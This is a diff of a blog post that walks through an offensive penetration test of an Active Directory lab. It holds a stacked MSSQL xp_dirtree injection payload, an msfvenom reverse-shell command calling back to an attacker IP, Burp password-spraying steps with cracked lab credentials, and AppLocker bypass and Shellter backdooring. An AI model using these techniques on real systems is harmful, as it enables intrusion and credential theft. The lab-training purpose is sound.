

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 1400 px high. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2018-3-26-lky-labs.md

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -5,10 +5,10 @@
 
 Windows Active Directory is a database of network resource objects. That proliferates in modern enterprise network architectures.
 
-A friendly wizard of such systems, lkys37en, has graciously allowed me to test out his lab, which replicates a modern enterprise Active Directory infrastructure supporting a small-medium sized business with a real go-getter of a Systems Admin who has taken steps to harden the system. This post will document the journey from external client to Domain Controller using some fun tools and tricks and filling in the gaps where I can, with some AD talk and explanation.
+This lab replicates a modern enterprise Active Directory infrastructure which supports a small/medium-sized business which has taken some reasonable measures to harden and secure the environment. This post will document the journey from external client to Domain Controller.
 
 
-We not even going to waste time with the initial basic nmap scan (`nmap -sV -Sc IP`) because we know there is a firewall in place and that would return nothing. So we scan the likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)
+We know from an underwhelming initial nmap scan (i.e. `nmap -sV -Sc IP`) that there is a firewall in place. So we scan the likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV) and scan the subnet.
 
 ```bash
 nmap -T4 -sV -Pn -p80,443 10.7.12.0/24
@@ -16,13 +16,12 @@
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)
 
-Alright we have some open http and https ports on 10.7.12.11-12. We bust the ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information. We also find 10.7.12.11/rdweb, which is Microsoft's Remote Desktop Web access portal. This is real interesting, but we have no info to log in so we put that on the back burner. We browse the sales site and `ProductSubCategoryId=18` makes us suspicious of a possible SQLi vulnerability.
-
+We have open ports on 10.7.12.11-12, and an http service running on 10.7.12.12. We bust the ports to discover web directories and find one on 10.7.12.12/mvc. It's hosting a sales site using a back-end database to manage its inventory information,as is common. We also find an http RDP access portal at 10.7.12.11/rdweb, which is Microsoft's Remote Desktop Web access portal. This is of course interesting. We can run a brute force application like hydra and medusa on the service but we have no idea of lockout or monitoring mechanisms in place so we try a few weak passwords and investigate the web application. We browse the sales site and note the url parameter and value when accessing a product for sale, `ProductSubCategoryId=18`. This is a ripe point to test whether there is an SQLi vulnerability.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-site.jpg)
 
 
-The url shows an aspx script that makes a call to the databse to retrieve product information and it doesn't look like that data is sanitized. We capture the request with Burp Suite and probe this injection point with sqlmap. We can use the "copy to file" function and write the request to product.req and then set sqlmap on it.
+The url shows an aspx script that makes a call to the database to retrieve product information and it doesn't look like that data is sanitized. We can manually test the vulnerability if we wish, but instead We capture the request with Burp Suite and save it to a file so that we can probe the request automatically with sqlmap using the r flag.
 
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-mvc-web-req.jpg)
@@ -55,8 +54,7 @@
 ```
 
 
-If we can derive the correct username given the full names of the AD users we can spray the rdweb login. For this one can use a tool like burp intruder. First lets get our lists together. We'll try the first letter of firstname and lastname as a format. And use standard recent Windows default passwords.
-
+If we can derive the correct username structure, given the full names of the AD users, we can spray the rdweb login intelligently. This can sometimes be accomplished with linkedIn or one can make an educated guess with from email addresses. Given the http portal on can use a tool like burp intruder. First, let's get our lists together. We'll try the first letter of firstname and lastname as a format, and we'll use standard Windows password reset format <season><year><non alphanumeric character>. Python has a useful CSV module we can leverage to easily take our sqlamp output and spit out usernames in a format we want.
 
 ```python
 import csv
@@ -65,7 +63,7 @@
     for row in reader:
         print('{}{}'.format(row['FirstName'][0].lower(), row['LastName'].lower()))
 ```
-
+The passwords list will be simple:
 Passwords List:
 *  Summer2017!
 *  Winter2017!
@@ -78,34 +76,30 @@
 
 
 Intruder:
-We use Burp Intruder to fuzz the login page with our creds, using the "cluster bomb" attack. We remove the placeholders save for the the two USERNAME fields and the the PASSWORD field and we relate our lists to a given placeholder. We use the userlist we created for placeholder1 and copy that list for paload 2, and we use a password list above for payload 3. We make sure to 'Always Follow Redirection' in the options tab because that's how a successful login will be processed.
-
+We use Burp Intruder to fuzz the login page with our creds, using the "cluster bomb" attack. We remove the placeholders save for the the two USERNAME fields and the the PASSWORD field and we relate our lists to a given placeholder. We use the userlist we created for placeholder1 and copy that list for payload 2, and we use a password list above for payload 3. We make sure to 'Always Follow Redirection,' this is how we will know whether or not our password is successful.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-rdweb-login.jpg)
 
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-burp-intruder.jpg)
 
-
 Intruder proves successful and we get three login creds.
 *  LAB\avazquez:Spring2017!
 *  LAB\mholliday:Summer2017!
 *  LAB\wbaird:Autum2017!
 
-We could've used a python script or curl or the OWA login bruteforcer in metasploit as alternatives to Burp Intruder
-
+(We could've used a python script or curl or the OWA login bruteforcer in metasploit as alternatives to Burp Intruder, which can be throttled if you have the community edition)
 
 We login with LAB\avazquez.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-valid-login.jpg)
 
-
-We don't want the rdweb and its two applications, we want the full experience. So we log into Annie's account with remmina.
+Then into into Annie's account with remmina.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lkys-remmina.jpg)
 
 
-Windows Defender and Applocker are preventing us from executing most things (Applocker includes AMSI). Pasting the contents of [applocker-bypass-checker-v1.ps1](https://braaaax.github.io/braaaax.github.io/applocker-bypas-checker.ps1) into notepad and saving as a .ps1 file allows us to sidestep Defender momentarily. Running shows us the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color allow "BUILTIN\USERS" write/createFiles & execute auth.
+None of our normal powershell script are working so we surmise that there is some kind of defense in place limiting Annie's capabilities on the box. Windows Defender and probably Applocker are the most likely culprits preventing us from executing most things (Applocker includes AMSI). So we paste the contents of [applocker-bypass-checker-v1.ps1](https://braaaax.github.io/braaaax.github.io/applocker-bypas-checker.ps1) into notepad and saving as a .ps1 file allows us to sidestep Defender momentarily. Running shows us the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color allow "BUILTIN\USERS" write/createFiles & execute auth so this is where we will set up shop for the time being.
 
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-Applocker-Bypass.png)
@@ -115,19 +109,14 @@
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-powershdll.png)
 
 
-
-We use Shellter to trick Applocker further by "rewiring" nc.exe to call to a waiting metasploit listener. Shellter adds some malicious shell code into a legitimate exe. We add a meterpreter reverse tcp shell to nc.exe. Shellter can take some trial and error. Try and build a stable of exe's that work all or most of the time.
-
+We use Shellter to trick Applocker further by "rewiring" nc.exe to call to a waiting metasploit listener. Shellter adds some malicious shell code into a legitimate exe, so as long as annie can use nc.exe we should be able to add a meterpreter reverse tcp shell to nc.exe. Shellter can take some trial and error. Try and build a stable of exe's that work all or most of the time.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-brax-exe.png)
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-msf-01.png)
 
-
-Once we've gotten our meterpreter shell. We can create a listener with empire and execute it with msf via the load_powershell module. Moving to empire is not necessary though it's nice to be able to do.
-
+Once we've gotten our meterpreter shell we can either create a listener with empire and execute it with msf via the load_powershell module or just load powershell directly in msf and import powerview to enumerate the AD. Moving to empire is not necessary though it's nice to be able to do.
 
 Either via empire or by importing the PowerView.ps1 module into your msf powershell_shell, we can enumerate the domain. Let's take a look at the boxes in the domain.
-
 
 ComputerName
 *  DC01  - 10.8.14.10 - Domain Controller (Promised Land)
@@ -139,49 +128,34 @@
 *  RDS02 - 10.7.12.12 - remote desktop
 *  SQL01 - 10.8.14.14 - sql server
 
-
-
-Using Invoke-Sharefinder we discover a VPN to facilitate internal access to the interior subnet to avoid lots of proxies. From an interior IP We can use responder and ntlnrelayx to dump hashes and get sessions for users without knowing the password. Something like `Invoke-Inveigh` could be used externally, but I have had limited success.
-
+We enumerate the network and try to understand the machines, their use and the general topology in place. Something you should always search for are accessible shares. Using Invoke-Sharefinder we discover a credentials to an internal VPN. From an internal IP We can use responder and ntlnrelayx to dump hashes and get sessions for users without knowing the password. Something like `Invoke-Inveigh` could be used externally, but I have had limited success with it.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-invoke-sharefinder.png)
 
 
-
 After some enumeration we find: `//FS01.lab.local/GroupData/LabUserVPN.ovpn`
 
+We fire up responder, but we don't get any hashes. Responder needs a user to initiate a request typically there can be many requests on a network, to an smb share or an internal http site, but this network is quiet, but it looks like we will have to get creative.
 
-We fire up responder, but we don't get any hashes. Responder needs a user to initiate a request. On a typical network there are browser and smb share request flying around all the time, but it looks like we will have to get creative.
-
-We have an injection point from step one. To prompt the hash of the owner of the sql db to be sent to responder we need to instigate a DNS query to our IP. We are requesting data be sent via HTML, SMB, or DNS. With MSSQL we use `master..xp_dirtree` (MySQL: LOAD_FILE()). Supplying a hostname to these functions will cause a DNS lookup to occur. We're not interested in successful transmission of the information but the target user with send their netNTLMv2 hash along with their request to our machine. [Futher Reading] (https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/)
+We have an injection point from our initial entry point (SQLi). We can leverage our SQLi to create a web request from the owner of the database. With MSSQL we use `master..xp_dirtree` (MySQL: LOAD_FILE()) to create an out of band http request We're not interested in successful transmission of the information, just that the target user will send a valid request and with that their netNTLMv2 hash along with their request to our machine. [Further Reading] (https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/)
 
 Our uri payload will be: `/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.8.254.14\test1'; exec master.dbo.xp_dirtree @q`
 
-
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-out-of-band-sqli-req.png)
-
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-responder.png)
 
-
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-ntlmrelayx.png)
-
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-sql01-login.png)
 
 
-
-Success. As system on SQL01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user. We see BDavis is a user on the box, he's our target.
-
+Success. As system on SQL01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user with tokens available on the box. If we were a low priv user on SQL01 we could potentially use rotten potato/lonely potato to escalate to system. We see BDavis is a user on the box and a server admin, he's our target.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-steal-token-01.png)
 
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-steal-token2.png)
-
-
-
-
 
 
 GPO Enumeration:
````
Also changed, not shown: other parts of _posts/2018-3-26-lky-labs.md (+2 -2 lines).
